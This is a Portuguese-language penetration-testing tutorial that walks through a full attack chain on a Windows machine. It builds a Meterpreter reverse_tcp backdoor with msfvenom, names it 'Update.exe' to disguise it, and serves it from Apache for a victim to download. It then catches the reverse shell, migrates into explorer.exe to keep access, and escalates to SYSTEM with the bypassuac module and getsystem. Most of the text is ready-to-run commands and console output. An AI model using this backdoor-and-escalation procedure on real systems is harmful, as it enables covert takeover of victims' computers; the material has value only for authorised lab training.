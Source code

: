 ```yaml
---
tags:
  - Pentest
  - WEB
---
```

# Criando o backdoor

Primeiro, criaremos um payload com a função **reverse_tcp**. Portanto, abra seu terminal e execute o seguinte comando:

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=1234 -o Update.exe
```

*IP = sua máquina*
*A porta pode ser qualquer uma. Deve ser usada a mesma posteriormente*

Agora você encontrará o arquivo `.exe` criado no diretório do Linux

# Colocando o backdoor na máquina alvo
Vamos hospedar o backdoor em um servidor simples. Primeiro startando servidor:
```powershell
service apache2 start
```

Copia-lo para uma pasta do servidor
```shell
cp Update.exe /var/www/html #diretório do apache
```

Agora você precisaria encontrar uma maneira de ==fazer a máquina alvo executá-lo==. Há várias maneiras de fazer isso po meio de Engenharia Social, porém esse método está fora do escopo deste tutorial. Vou apenas exemplificar como o alvo acessaria o link com o backdoor:
```powershell
http://192.168.200.56/Update.exe
```

O download iniciará instantaneamente.

```powershell
$ msfconsole  
```

Agora, vamos selecionar o arquivo e usa-lo

```powershell
msf6 > use multi/handler
```

Escolher o payload de para windows, setar o LHOST (nossa máquina) e a porta. Agora só escrever **run** e aguardar a máquina alvo se conectar

```shell
> set payload windows/meterpreter/reverse_tcp
#payload => windows/meterpreter/reverse_tcp
> set lhost 192.168.200.46
#lhost => 192.168.200.46

> set lport 4444
#lport => 4444

> run

#[*] Started reverse TCP handler on 192.168.200.46:4444 
```

Assim que a máquina executar o arquivo, teremos conseguido acesso total.

# Escalação de Privilégios
Com `getuid` conseguimos ver que temos por enquanto apenas permissão de usuário comum
```powershell
meterpreter > getuid
#Server username: rae-PC\rae
```

Para conseguir um nível de administração do sistema, daremos o comando `getsystem`. Assim, teremos mais acesso que antes, porém ainda não é um acesso completo. 

Caso o usuário feche a sessão, perderemos nosso acesso, portanto vamos seguir os próximos passos

Por meio do `getpig`, podemos ver nosso processo atual. Portanto, vamos trocar nosso *pig* por um de outro **processo que sempre está rodando**. Vamos rodar o comando `ps` para ver todos os processos e pegar o pig do processo `explorer.exe`

```powershell
meterpreter > getpid
#Current pid: 1840

meterpreter > ps
2648  2616  explorer.exe    x64   1  
rae-PC\rae              C:\Windows\explorer.exe
```

Para trocar, daremos o seguinte comando:
```powershell
meterpreter > migrate 2648
[*] Migrating from 1840 to 2648...
[*] Migration completed successfully.

meterpreter > getpid
Current pid: 2648 # migração concluida
```

Agora, continuando com a escalação de privilégios, vamos entrar no shell e verificar nosso usuário, que ainda é um usuário padrão:

```powershell
meterpreter > shell
Process 820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
rae-pc\rae #usuário comum
```

Para isso, vamos sair com `exit` e jogar a sessão para background, criar uma nova e implementar outro exploit para escalação

```powershell
C:\Windows\system32>exit
exit

meterpreter > background
#[*] Backgrounding session 1...

msf6 exploit(multi/handler) > sessions

#Active sessions 3===============

#  Id  Name  Type                     Information          Connection
#  --  ----  ----                     -----------          ----------
  #1         meterpreter x64/windows  rae-PC\rae @ RAE-PC  192.168.200.46:4444 -> 192.168.20
                                                          #0.53:49447 (192.168.200.53)

```


```powershell
msf6 exploit(multi/handler) > search uac
```

O exploit que usuaremos agora é este:

![[Pasted image 20231126172758.png]]

```powershell
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
#[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > 
```

Por meio do comando `show options` conseguimos perceber que precisamos setar uma *session* que no caso é a sessão que anteriormente deixamos em background.

```powershell
msf6 exploit(windows/local/bypassuac) > show options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: P
                                         SH, EXE)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process,
                                         none)
   LHOST     192.168.200.46   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

View the full module info with the info, or info -d command.
```

Vamos setar o mesmo payload anterior

```powershell
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp
```

Agora escolher uma arquitetura especifica, selecionar os mesmos `lhost` e `lport` como anteriormente e por  fim selecionar a sessão que deixamos em background

```powershell
msf6 exploit(windows/local/bypassuac) > show targets

#Exploit targets:
#=================

#    Id  Name
#    --  ----
#>  0   Windows x86
#    1   Windows x64

msf6 exploit(windows/local/bypassuac) > set target 0
#target => 0

msf6 exploit(windows/local/bypassuac) > set lhost 192.168.200.46
#lhost => 192.168.200.46

msf6 exploit(windows/local/bypassuac) > set lport 2022
#lport => 2022

msf6 exploit(windows/local/bypassuac) > set session 1
#session => 1

msf6 exploit(windows/local/bypassuac) > exploit
```

Uma nova sessão será criada e ficará na session 3. Com `getuid` vemos que ainda somos usuário comum, porém escalar o privilégio com o comando `getsystem`:

```powershell
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Agora basta abrir o shell e ver nosso privilégio de admin. 

```powershell
meterpreter > shell
#Process 448 created.
#Channel 1 created.
#Microsoft Windows [Version 6.1.7601]
#Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
#whoami
#nt authority\system
```

